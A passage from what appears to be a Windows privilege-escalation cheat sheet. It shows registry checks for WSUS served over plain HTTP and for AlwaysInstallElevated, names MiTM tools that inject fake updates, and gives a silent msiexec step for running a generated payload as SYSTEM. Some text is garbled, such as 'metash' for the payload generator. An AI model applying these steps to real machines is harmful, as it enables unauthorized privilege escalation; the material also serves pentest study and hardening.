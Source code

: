 ### WSUS 

You can compromise the system if the updates are not requested using http**S** but http.

Check:

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
```

If you get a reply such as one of these:

```shell
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate
      WUServer    REG_SZ    http://xxxx-updxx.corp.internal.com:8535
```

```shell
WUServer     : http://xxxx-updxx.corp.internal.com:8530
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows\windowsupdate
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows
PSChildName  : windowsupdate
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry
```

And if `HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer` **or** `Get-ItemProperty -Path hklm:\software\policies\microsoft\windows\windowsupdate\au -name "usewuserver"` is equals to `1`.

Then, **it is exploitable.** If the last registry is equals to 0, then, the WSUS entry will be ignored.

In orther to exploit this vulnerabilities you can use tools like: [Wsuxploit](https://github.com/pimps/wsuxploit), [pyWSUS ](https://github.com/GoSecure/pywsus)- These are MiTM weaponized exploits scripts to inject 'fake' updates into non-SSL WSUS traffic.

### AlwaysInstallElevated

**If** these 2 registers are **enabled** (value is **0x1**), then users of any privilege can **install** (execute) `*.msi` files as `NT AUTHORITY\SYSTEM`.

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

1. Generate `msi` Payload with `metash`

2. Transfer and execute it:

	```cmd
	msiexec /quiet /qn /i out.msi
	```
